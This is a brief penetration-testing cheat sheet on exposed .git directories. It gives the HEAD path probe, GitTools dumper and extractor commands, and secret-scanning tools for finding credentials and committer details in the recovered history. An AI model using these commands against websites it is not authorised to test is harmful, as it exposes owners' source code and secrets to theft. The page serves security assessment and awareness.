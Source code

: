 Git
===


## Exploit git exposed over HTTP
Some website exposes `.git` to the Internet. To check if the website is vulnerable, then check for
the following path:

```
https://<domain>/some/path/.git/HEAD
```

If the server return a status 200, then it might be possible to clone the repository. For that, you
can use (`GitTools`)[https://github.com/internetwache/GitTools):

```
Dumper/gitdumper.sh http://<domain>/some/path/.git/ ~/<domain>
Extractor/extractor.sh ~/<domain> ~/<domain>_dump
```

If the script is not dumping the `.git` folder, then you can modify it. Sometimes, the `/.git/` path
is a Directory Listing, then it's easier to dump using `wget`.


## Find git secrets
Here is 2 tools I used to find git secrets:

- [GitLeaks](https://github.com/zricethezav/gitleaks)
- [truffleHog](https://github.com/dxa4481/truffleHog)


Or you can use the `git` command:
```bash
git log
git diff <commit_hash>
```

Don't forget to also check the username or email address of the committer.

